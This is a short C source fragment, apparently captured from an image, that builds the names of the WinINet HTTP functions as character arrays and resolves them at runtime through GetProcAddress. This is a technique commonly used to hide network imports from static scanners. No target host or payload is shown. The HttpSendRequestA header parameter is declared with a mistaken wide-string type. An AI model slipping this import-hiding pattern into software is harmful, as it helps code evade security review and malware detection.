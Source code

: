         char httpopenrequesta_name[] = { 'H','t','t','p','O','p','e','n','R','e','q','u','e','s','t','A',0 };
        HINTERNET (WINAPI * _HttpOpenRequestA)(
            _In_opt_ HINTERNET hConnect,
            _In_opt_ LPCSTR   lpszVerb,
            _In_opt_  LPCSTR   lpszObjectName,
            _In_opt_ LPCSTR   lpszVersion,
            _In_opt_ LPCSTR   lpszReferrer,
            _In_opt_ LPCSTR * lplpszAcceptTypes,
            _In_opt_ DWORD     dwFlags,
            _In_ DWORD_PTR dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET hConnect,
                _In_opt_ LPCSTR   lpszVerb,
                _In_opt_ LPCSTR   lpszObjectName,
                _In_opt_ LPCSTR   lpszVersion,
                _In_opt_ LPCSTR   lpszReferrer,
                _In_opt_ LPCSTR * lplpszAcceptTypes,
                _In_opt_ DWORD     dwFlags,
                _In_ DWORD_PTR dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, httpopenrequesta_name);

        char httpsendrequesta_name[] = { 'H','t','t','p','S','e','n','d','R','e','q','u','e','s','t','A',0 };

        BOOL (WINAPI * _HttpSendRequestA)(
            HINTERNET hRequest,
            LPCWSTR   lpszHeaders,
            DWORD     dwHeadersLength,
            LPVOID    lpOptional,
            DWORD     dwOptionalLength
            ) = (BOOL (WINAPI*)(
                HINTERNET hRequest,
                LPCWSTR   lpszHeaders,
                DWORD     dwHeadersLength,
                LPVOID    lpOptional,
                DWORD     dwOptionalLength
                )) _GetProcAddress((HMODULE)wininet_dll, httpsendrequesta_name);

        char internetreadfile_name[] = { 'I','n','t','e','r','n','e','t','R','e','a','d','F','i','l','e', 0 };

        BOOL (WINAPI * _InternetReadFile)(
            HINTERNET hFile,
            LPVOID    lpBuffer,
            DWORD     dwNumberOfBytesToRead,
            LPDWORD   lpdwNumberOfBytesRead
            ) = (BOOL (WINAPI*)(
                HINTERNET hFile,
                LPVOID    lpBuffer,
                DWORD     dwNumberOfBytesToRead,
                LPDWORD   lpdwNumberOfBytesRead
                )) _GetProcAddress((HMODULE)wininet_dll, internetreadfile_name);
